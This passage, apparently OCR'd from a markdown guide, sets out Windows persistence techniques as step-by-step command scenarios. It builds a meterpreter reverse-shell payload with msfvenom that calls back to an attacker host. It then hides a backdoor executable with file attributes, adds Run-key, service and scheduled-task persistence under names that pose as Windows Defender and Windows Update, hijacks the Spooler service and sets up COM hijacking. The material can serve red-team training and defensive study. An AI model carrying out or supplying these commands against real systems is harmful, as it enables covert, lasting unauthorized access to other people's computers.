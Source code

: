 ### 2. File Attribute Manipulation
```cmd
# Hide files and set system attributes
attrib +h +s "C:\Windows\System32\backdoor.exe"

# Remove from directory listings
attrib +h +s +r "C:\Windows\System32\backdoor.exe"
```

## Practical Persistence Scenarios

### Scenario 1: User-Level Persistence
```cmd
# 1. Create payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > backdoor.exe

# 2. Upload to target
copy backdoor.exe "C:\Users\Public\update.exe"

# 3. Create registry persistence
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "C:\Users\Public\update.exe" /f

# 4. Test persistence
shutdown /r /t 0
```

### Scenario 2: System-Level Persistence
```cmd
# 1. Escalate to SYSTEM privileges
# (use token impersonation, service exploitation, etc.)

# 2. Create service persistence
sc create "WindowsDefender" binpath= "C:\Windows\System32\backdoor.exe" start= auto
sc description "WindowsDefender" "Windows Defender Antivirus Service"

# 3. Start service
sc start "WindowsDefender"

# 4. Create scheduled task backup
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\System32\backdoor.exe" /sc onstart /ru "SYSTEM" /f
```

### Scenario 3: Stealth Persistence
```cmd
# 1. Use DLL hijacking for stealth
# Find vulnerable application
# Create malicious DLL

# 2. Modify existing service
sc config "Spooler" binpath= "C:\Windows\System32\backdoor.exe && C:\Windows\System32\spoolsv.exe"

# 3. WMI persistence for advanced stealth
# Use PowerShell WMI event subscription

# 4. COM hijacking
reg add "HKCU\SOFTWARE\Classes\CLSID\{GUID}\InprocServer32" /ve /t REG_SZ /d "malicious.dll" /f
```
